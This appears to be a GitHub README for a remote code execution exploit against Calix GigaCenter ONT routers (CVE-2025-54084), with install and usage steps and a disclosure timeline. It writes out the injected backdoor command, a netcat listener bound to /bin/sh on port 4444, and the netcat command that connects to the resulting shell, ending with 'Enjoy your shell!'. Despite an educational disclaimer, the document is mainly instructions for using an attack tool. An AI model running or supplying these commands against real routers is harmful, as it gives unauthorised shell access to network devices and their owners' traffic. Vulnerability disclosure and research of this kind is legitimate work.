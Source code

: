 # RCE-Calix-Gigacenter

![tool](tool.png)

Remote Code Execution (RCE) exploit targeting **Calix Gigacenter ONT routers**, specifically tested on the **Calix 844G-1** model. This exploit takes advantage of a zero-day vulnerability discovered in **February 2025**, now assigned as CVE-2025-54084. The affected routers are: Calix GigaCenter ONT 844E, 844G, 844GE, and 854GE. Finally, there are 4 more zero days discovered, if do you want to read more deatils about this RCE vulnerability and the another ones, check the post: https://revers3everything.com/calix-case-five-0-days-five-cves/

## ⚠️ Disclaimer
This tool is intended **only for educational and ethical hacking purposes**.  
Do not use it against any device without **explicit authorization**.  
The author is not responsible for any misuse.

## 🛠️ Installation

Only one dependency is required:

```bash
pip install requests
```

## How to Use

Run the exploit script:

```bash
python3 rce-calix-gigacenter.py
```

Once executed, the exploit will inject the following command into the vulnerable router:

```bash
nc -l -p 4444 -e /bin/sh &
```

You will see a message like:

```
Backdoor into the router, try to connect with netcat to the port 4444!
```

Then, connect to the reverse shell with `netcat`:

```bash
nc 169.254.1.2 4444
```

**Enjoy your shell!**

## Exploit Timeline

- **Zero-day discovered:** February 2025
- **CVE Public disclosure:** September 9 2025
[demo-exploit](final-rce-poc.webm)

## Author
**Danilo Erazo** (`@revers3vrything`)  
Hardware Security Researcher and Speaker at:
- Hardwear.io USA 2025
- DEFCON 32
- Ekoparty 2024 & 2023
- Re//verse 2025, etc

© 2025 Danilo Erazo (@revers3vrything)
